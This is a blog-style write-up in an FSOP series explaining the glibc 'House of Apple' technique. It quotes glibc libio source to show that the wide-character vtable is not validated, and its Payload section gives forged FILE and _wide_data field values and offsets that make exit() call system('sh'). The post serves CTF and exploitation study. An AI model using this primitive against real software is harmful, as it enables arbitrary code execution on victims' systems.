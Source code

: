 ```yaml
---
title: House of Apple
date: 2023-12-05
excerpt: "Analysis of FSOP techniques: House of Apple"
category: fsop-series
tags:
    - pwn
    - fsop
---
```


Original article: <https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-1/>

Requirements:
1. can call `exit` or return from `main`
2. heap_base and libc_base
3. single largebin chunk

# Overview

In glibc, jumps from vtables are made via these macros:

```c
// example jump macro with 1 extra argument
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
#define WJUMP1(FUNC, THIS, X1) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable(_IO_JUMPS_FILE_plus (THIS) + (THIS)->_vtable_offset) )
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)

#define _IO_JUMPS_FILE_plus(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE_plus, vtable)
#define _IO_WIDE_JUMPS(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

The macros for `WXXX` are not protected by `IO_validate_vtable`, so we can use
this to call arbitrary function. These macros are used in functions of
`_IO_wfile_jumps` vtable:

```c
const struct _IO_jump_t _IO_wfile_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_new_file_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wfile_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wfile_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wdefault_pbackfail),
  JUMP_INIT(xsputn, _IO_wfile_xsputn),
  JUMP_INIT(xsgetn, _IO_file_xsgetn),
  JUMP_INIT(seekoff, _IO_wfile_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_new_file_setbuf),
  JUMP_INIT(sync, (_IO_sync_t) _IO_wfile_sync),
  JUMP_INIT(doallocate, _IO_wfile_doallocate),
  JUMP_INIT(read, _IO_file_read),
  JUMP_INIT(write, _IO_new_file_write),
  JUMP_INIT(seek, _IO_file_seek),
  JUMP_INIT(close, _IO_file_close),
  JUMP_INIT(stat, _IO_file_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```

The struct of `f->_wide_data` is

```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;
  wchar_t *_IO_read_end;
  wchar_t *_IO_read_base;
  wchar_t *_IO_write_base; // 0x18
  wchar_t *_IO_write_ptr;
  wchar_t *_IO_write_end;
  wchar_t *_IO_buf_base; // 0x30
  wchar_t *_IO_buf_end;	
  wchar_t *_IO_save_base;
  wchar_t *_IO_backup_base;
  wchar_t *_IO_save_end;
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable; // 0xe0
};
```

It's quite similar to FILE, but vtable is at 0xe0.

## _IO_wfile_overflow

### Analysis

When `exit` is called, the FILE cleanup call stack is `fcloseall -> _IO_cleanup -> _IO_flush_all_lockp`.

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // <--- overflow call
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}

// definition of _IO_OVERFLOW
typedef int (*_IO_overflow_t) (FILE *, int);
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)
```

So for each FILE in `_IO_list_all`, its `vtable->__overflow` is called when the below requirements are satisfied:

1. `fp->_mode == 0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

We can set our victim FILE (`stderr`) to point to this vtable. On exit, it will call the
overflow function, `_IO_wfile_overflow`, which is defined as:

```c
wint_t _IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f); // <-- call to _IO_wdallocbuf macro
	  _IO_free_wbackup_area (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
    // ...
    }
}

void _IO_wdoallocbuf (_IO_FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}

#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
```

The `_IO_wfile_overflow` function calls `_IO_wdoallocbuf`, which then calls
`__doallocate` of the `_wide_vtable`, passing the FILE struct as the first
argument. As mentioned, the `_wide_vtable` performs no checks so we can point
this to system.

So our call stack looks like this:

```
_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> _wide_data._wide_vtable.__doallocate
```

Analyzing each of the functions, we need to satisfy:
1. `f->flags == ~(0x8 | 0x800 | 0x2)` (unset `_IO_NO_WRITES`, `_IO_CURRENTLY_PUTTING` and `_IO_UNBUFFERED`)
2. `f->_wide_data->_IO_write_base == 0`
2. `f->_wide_data->_IO_buf_base == 0`

Then our desired function goes into `__doallocate (_wide_vtable+0x68)`, and rdi goes into `flags`.

### Payload

With the above conditions satisfied, our FILE struct will look like this:

```c
// FILE
f->_flags = "  sh";
f->write_base = 0; // +0x20
f->write_ptr = 1; // +0x28
f->_wide_data = ; // <ptr to forged wide_data struct> at +0xa0
f->_mode = 0; // +0xc0 (note: pwntools FILE struct doesn't have this, but can leave as blank cos default is likely 0)
f->vtable = &_IO_wfile_jumps; // +0xd8

// _wide_data (can forge in heap etc)
_wide_data->_IO_write_base = 0; // +0x18
_wide_data->_IO_buf_base = 0; // +0x30
_wide_data->_wide_vtable = *(&(system) - 0x68); // <ptr to (system - 0x68)> at +0xe0
```

There are a few more gadget chains using `_IO_wfile_underflow_mmap`,
`_IO_wdefault_xgetn`, `_IO_wfile_underflow`, `_IO_wdo_write` and
`_IO_wfile_sync` which I will put here once I analyze them.
